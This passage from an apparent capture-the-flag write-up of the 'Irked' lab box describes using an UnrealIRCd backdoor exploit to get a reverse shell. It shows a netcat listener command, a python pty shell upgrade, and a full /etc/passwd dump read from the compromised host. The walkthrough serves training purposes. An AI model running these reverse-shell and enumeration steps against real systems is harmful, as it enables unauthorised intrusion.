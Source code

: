 Basically this exploit connects to the server and port then sends the backdoor command with another command to give us a reverse shell.

In one terminal we set up a listener with `nc -nlvp 8080` update the IP and port in the payload, and run the exploit `python3 exploit.py`

Eventually we will get a basic reverse shell we can update with python:
```
python -c "import pty; pty.spawn('/bin/bash')"
```

and we are on the box with an interactive shell. Time to enumerate.
```
ircd@irked:~/Unreal3.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:111::/var/run/dbus:/bin/false
avahi:x:105:112:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
Debian-exim:x:106:114::/var/spool/exim4:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
colord:x:108:118:colord colour management daemon,,,:/var/lib/colord:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
geoclue:x:110:119::/var/lib/geoclue:/bin/false
pulse:x:111:121:PulseAudio daemon,,,:/var/run/pulse:/bin/false
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin
rtkit:x:114:123:RealtimeKit,,,:/proc:/bin/false
saned:x:115:124::/var/lib/saned:/bin/false
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
hplip:x:117:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:118:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh
```
